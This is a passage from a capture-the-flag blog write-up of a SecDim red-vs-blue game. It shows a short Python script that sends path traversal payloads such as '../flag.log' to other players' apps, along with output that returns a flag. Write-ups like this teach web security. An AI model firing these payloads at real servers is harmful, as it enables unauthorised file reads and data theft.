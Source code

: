 **Path Traversal Payloads**
To begin we will have to identify some payloads that we can use to attempt to break other players applications. Starting out with a Google search we end with a popular Github repository that contains useful payloads and bypasses for all thing web application security. 
[PayloadsAllTheThings - Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)  
![Basic Exploitation](/blog/secdim/secgames/secgames_06/img/github_path_traversal.png)  
The repository contains numerous payloads and techniques that can be used to bypass or defeat checks for path traversal character sequences.  

**Let's Hack**  
Armed with a list of possible payloads, lets attempt to break other players path traversal patches using a short Python script.  

```
payloads = ['/app/flag.log', '../flag.log', '....SNIP....'']
HEADERS = {'accept': 'application/json', 'Content-Type': 'application/json'}

for url in urls:
    print(f"\nTrying: {url}")
    for payload in payloads:
        sleep(0.75)
        s = requests.session()
        s.headers.update(HEADERS)
        rsp = s.post(url, json={'name': f'{payload}', 'subdir': ''})
        print(f"\nPayload: {payload} \n\tRSP: {rsp.text}")

```
The core function of the script, simply iterating through a list of the target urls and list of approximately 20 path traversal payloads including unicode confusables as both the 'subdir' and 'name' parameters.  

```
m477@Coding:~/Python/Path_Trav$ python3 hack.py 

Trying: https://alice-file-py-hth-**********-uc.a.run.app/log
Payload: /app/flag.log
    RSP: {"name":"/app/flag.log","content":"SecDim{f10e9b4aac288ca2932e4e490294c7e3}\n"}
....
SNIP
....
```
Response received from target, you can see in the content there is a flag.  

**Challenge Scoreboard**  
![Challenge Scoreboard](/blog/secdim/secgames/secgames_06/img/leaderboard.png)  
Being a red vs blue challenge we can view the current player points on the scoreboard.  
&nbsp;  

Join the Meetup group here: [Meetup - Secgames](https://www.meetup.com/secgames/)  
&nbsp;  

--> Apologies for alternating between screenshots and code-blocks in this document...  
